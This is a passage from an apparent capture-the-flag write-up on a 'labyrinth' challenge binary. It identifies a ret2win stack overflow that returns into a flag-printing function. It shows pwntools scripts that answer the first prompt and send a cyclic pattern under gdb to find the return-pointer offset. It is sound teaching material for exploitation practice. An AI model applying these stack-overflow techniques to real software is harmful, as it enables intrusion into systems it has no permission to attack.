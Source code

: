 ```C
  while( true ) {
    bytes_read = read(flag_fd,&flag_char,1);
    if (bytes_read < 1) break;
    fputc((int)flag_char,stdout);
  }
  close(flag_fd);
  return;
}
```

escape_plan simply prints out the flag.

This makes the challenge a simple ret2win challenge, where you have to overwrite the return pointer on the stack to return to the escape_plan function and print the flag.

### Exploitation

First we'll write some code to pass the first check, so we can send input for the 2nd one:

```py
from pwn import *

gdbscript = """
b *main
c
"""

io = gdb.debug("./labyrinth",gdbscript=gdbscript)

io.recvuntil(b'>>')
io.sendline(b'69')
io.recvuntil(b'>>')

io.interactive()
```

This simply receives output from the program untill it's asking for input. Sends the correct door number to hit the 2nd prompt and waits untill it's prompted to send input again.

We can now send a cyclic pattern to figure out the point where we overflow into the return pointer and break at the address where main returns:

```py
from pwn import *

gdbscript = """
b *0x0000000000401602
c
"""

io = gdb.debug("./labyrinth",gdbscript=gdbscript)

io.recvuntil(b'>>')
io.sendline(b'69')
io.recvuntil(b'>>')

padding = cyclic(0x44)
io.sendline(padding)

io.interactive()
```

